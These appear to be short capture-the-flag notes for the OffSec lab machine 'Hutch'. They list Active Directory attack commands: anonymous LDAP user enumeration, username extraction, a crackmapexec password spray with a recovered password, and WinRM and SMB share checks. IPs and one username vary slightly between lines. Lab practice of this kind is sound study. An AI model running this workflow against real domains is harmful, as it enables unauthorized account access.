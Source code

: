 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
used to find the shares on a file system.
```
crackmapexec smb 192.168.105.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
